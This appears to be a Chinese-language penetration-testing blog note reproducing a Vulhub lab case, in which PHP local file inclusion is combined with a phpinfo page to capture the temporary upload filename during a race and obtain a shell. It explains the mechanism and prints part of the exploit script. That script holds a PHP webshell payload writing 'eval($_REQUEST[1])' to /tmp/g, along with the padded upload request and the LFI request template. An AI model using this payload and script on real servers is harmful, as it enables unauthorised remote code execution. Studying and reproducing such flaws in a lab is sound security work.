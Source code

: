 ```yaml
---
title: PHP文件包含漏洞（利用phpinfo）
date: 2023-09-03T15:29:52+08:00
updated: 2023-08-05T16:40:28+08:00
categories: 
- 渗透测试
- 漏洞复现
- Php
---
```


### 漏洞简介:

PHP文件包含漏洞中，如果找不到可以包含的文件，我们可以通过包含临时文件的方法来getshell。因为临时文件名是随机的，如果目标网站上存在phpinfo，则可以通过phpinfo来获取临时文件名，进而进行包含。

### 漏洞利用:

直接使用vulhub中带的exp即可获得文件包含点getshell

![inclusion-1](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\inclusion-1.png)

利用文件包含漏洞即可getshell

![includsion-2](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\includsion-2.png)

### 漏洞分析：

该漏洞不限制版本，来源于服务器配置错误和LFI漏洞，Gynvael Coldwind在论文研究中特别指出如果在 PHP 配置文件中设置了 file_uploads = on，那么 PHP 将接受任何 PHP 文件的文件上传帖子。他还指出，上传文件将存储在 tmp 位置，直到请求的 PHP 页面被完全处理。

在给PHP发送POST数据包时，如果数据包里包含文件区块，无论你访问的代码中有没有处理文件上传的逻辑，PHP都会将这个文件保存成一个临时文件（通常是`/tmp/php[6个随机字符]`），文件名可以在`$_FILES`变量中找到。这个临时文件，在请求结束后就会被删除。

同时，因为phpinfo页面会将当前请求上下文中所有变量都打印出来，所以我们如果向phpinfo页面发送包含文件区块的数据包，则即可在返回包里找到`$_FILES`变量的内容，自然也包含临时文件名。

![inclusion-3](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\inclusion-3.png)

可以看到phpinfo中存在临时文件名，该漏洞先向phpinfo发送垃圾数据和请求，得到文件名后再进行包含，但是通常请求phpinfo后文件数据就被删除了，因此需要条件竞争，利用流程如下

```
发送包含webshell的上传数据包给phpinfo页面，这个数据包的header、get等位置需要塞满垃圾数据

因为phpinfo页面会将所有数据都打印出来，1中的垃圾数据会将整个phpinfo页面撑得非常大

php默认的输出缓冲区大小为4096，可以理解为php每次返回4096个字节给socket连接

所以，我们直接操作原生socket，每次读取4096个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包

此时，第一个数据包的socket连接实际上还没结束，因为php还在继续每次输出4096个字节，所以临时文件此时还没有删除

利用这个时间差，第二个数据包，也就是文件包含漏洞的利用，即可成功包含临时文件，最终getshell
```

通过观察脚本，也能看出来是这个逻辑

```python
def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)
```

如果有需要可以在脚本中更改漏洞利用位置和页面